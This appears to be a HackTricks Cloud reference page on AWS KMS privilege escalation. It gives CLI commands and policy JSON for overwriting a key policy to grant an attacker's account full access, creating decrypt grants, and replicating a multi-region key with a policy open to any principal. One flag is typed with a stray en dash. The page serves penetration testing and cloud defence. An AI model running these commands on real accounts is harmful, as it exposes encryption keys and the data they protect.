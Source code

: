 # AWS - KMS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

For more info about KMS check:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

With these permissions it's possible to **modify the access permissions to the key** so it can be used by other accounts or even anyone:

{% code overflow="wrap" %}
```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```
{% endcode %}

policy.json:

```json
{
    "Version" : "2012-10-17",
    "Id" : "key-consolepolicy-3",
    "Statement" : [ 
        {
            "Sid" : "Enable IAM User Permissions",
            "Effect" : "Allow",
            "Principal" : {
                "AWS" : "arn:aws:iam::<origin_account>:root"
            },
            "Action" : "kms:*",
            "Resource" : "*"
        }, 
        {
            "Sid" : "Allow all use",
            "Effect" : "Allow",
            "Principal" : {
                "AWS" : "arn:aws:iam::<attackers_account>:root"
            },
            "Action" : [ "kms:*" ],
            "Resource" : "*"
        }
    ]
}
```

### `kms:CreateGrant`

It **allows a principal to use a KMS key:**

```bash
aws kms create-grant \
    --key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
    --grantee-principal arn:aws:iam::123456789012:user/exampleUser \
    --operations Decrypt
```

{% hint style="warning" %}
A grant can only allow certain types of operations: [https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)
{% endhint %}

{% hint style="warning" %}
Note that it might take a couple of minutes for KMS to **allow the user to use the key after the grant has been generated**. Once that time has passed, the principal can use the KMS key without needing to specify anything.\
However, if it's needed to use the grant right away [use a grant token](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token) (check the following code).\
For [**more info read this**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token).
{% endhint %}

```bash
# Use the grant token in a request
aws kms generate-data-key \
    --key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
    –-key-spec AES_256 \
    --grant-tokens $token
```

Note that it's possible to list grant of keys with:

```bash
aws kms list-grants --key-id <value>
```

### `kms:CreateKey`, `kms:ReplicateKey`

With these permissions it's possible to replicate a multi-region enabled KMS key in a different region with a different policy.

So, an attacker could abuse this to obtain privesc his access to the key and use it

{% code overflow="wrap" %}
```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
    "Version": "2012-10-17",
    "Id": "key-consolepolicy-3",
    "Statement": [
        {
            "Sid": "Enable IAM User Permissions",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "kms:*",
            "Resource": "*"
        }
    ]
}
```
{% endcode %}

### `kms:Decrypt`

This permission allows to use a key to decrypt some information.\
For more information check:

{% content-ref url="../aws-post-exploitation/aws-kms-post-exploitation.md" %}
[aws-kms-post-exploitation.md](../aws-post-exploitation/aws-kms-post-exploitation.md)
{% endcontent-ref %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
